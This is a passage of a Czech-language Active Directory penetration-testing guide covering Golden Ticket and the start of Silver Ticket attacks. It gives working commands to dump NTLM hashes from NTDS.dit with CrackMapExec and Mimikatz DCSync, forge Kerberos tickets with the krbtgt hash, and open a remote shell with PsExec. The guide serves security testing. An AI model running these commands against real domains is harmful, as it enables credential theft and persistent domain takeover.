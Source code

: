 Získat NTLM hash účtu uživatele nebo služby, který se v AD nachází v databázovém souboru NTDS.dit, kde jsou uloženy hashe všech hesel, nám umožňuje autentizaci z dalších zařízení. 

Extrahování hashe hesla nástrojem [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec):
```
python3 -m pip install pipx

pipx ensurepath

pipx install crackmapexec

crackmapexec smb <adresa domenoveho radice> -u <uzivatel> -H <hashe uzivatelskeho uctu> --ntds
```

Extrahování hashe hesla nástrojem [Mimikatz](https://github.com/ParrotSec/mimikatz):
```
lsadump::dcsync /domain:<adresa domeny> /user:<uzivatelske jmeno>
```

Vygenerovat TGT tiket nástrojem Mimikatz:
```
kerberos::golden /domain: <adresa domeny> /sid:<SID> /user:<uzivatelske jmeno> /id:<RID> /krbtgt:<NTLM hash KRBTGT> /ptt
```

Vzdálený přístup pomocí [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):
```
PsExec.exe -accepteula \\<domena> cmd
```

### Možné výsledky testu

Tím, že si útočník validní tiket vygeneroval, tak se již nemusí autentizovat vůči KDC a může si přímo zažádat u TGS o tiket služby ST. Jelikož je tiket validní, TGS nemá důvod útočníkovu žádost zamítnout. Útočník je omezen pouze živnostností tiketů, která je ve výchozím stanovena na 10 hodin po jeho vytvoření. Narozdíl od útoku Pass-The-Ticket to útočníka nijak nelimituje, jelikož si okamžitě po vypršení platnosti tiketu může vytvořit nový TGT.

## Silver Ticket

### Popis testu

Útok Silver Ticket cílí na TGS a s tiketem tak lze přistupovat pouze ke konkrétní službě. Údaje potřebné pro vygenerování Silver Ticket jsou název domény a SID, které lze v systému Windows získat příkazem whoami. Dále je nutné znát NTLM hash účtu uživatele nebo služby. Hash uživatelského účtu lze extrahovat ze souboru SAM nebo v rámci Active Directory z databázového souboru NTDS.dit. Se všemi těmito údaji může útočník neomezeně generovat tikety služby ST a jelikož jsou všechny údaje validní, tak samotná služba útok rozpoznat nedokáže.

### Jak provést test manuálně

Získat SID uživatelského účtu:
```
whoami /user
```
